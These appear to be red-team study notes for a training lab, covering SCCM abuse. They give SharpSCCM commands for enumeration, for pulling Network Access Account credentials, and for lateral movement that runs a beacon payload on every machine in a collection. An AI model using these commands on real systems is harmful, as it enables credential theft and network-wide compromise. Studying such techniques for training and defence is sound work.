 # Microsoft Configuration Manager Notes

new name for SCCM, helps push appliation and software deployments, updates and complienace configuration and reporting

we can use to abuse and push our own scripts, applications, or config changes

## Enumeration

Tools:
[SharpSCCM](https://github.com/Mayyhem/SharpSCCM)


```
sharpsccm:
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner
wmi:
powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl
```

check the DACL on the CN=System Management container in AD for machines that have Full Control over it
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner
```

enumerate all the collections for a user, we'll get different results per users and their permissions
```
confirm our user:
getuid
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
make_token <user> <pass>
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
```

find admin users
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
```

find users of a collection
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n <collection-name> --no-banner
```

get more info
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
```
The -u parameter will only return devices where the given user was the last to login.
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
```

## Network Access Account Credentials

some computers may not be domain-joined and need an Network Access Account to sign in, these are domain creds for SCCM.

any user can retrieve these
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
make_token <sccm svc account> <pass>
```

## Lateral Movement

To execute a command on every device in the DEV collection, we could do exec -n DEV -p <path>
```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n <collection> -p C:\Windows\notepad.exe --no-banner
executing a beacon on all sccm machines:
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```
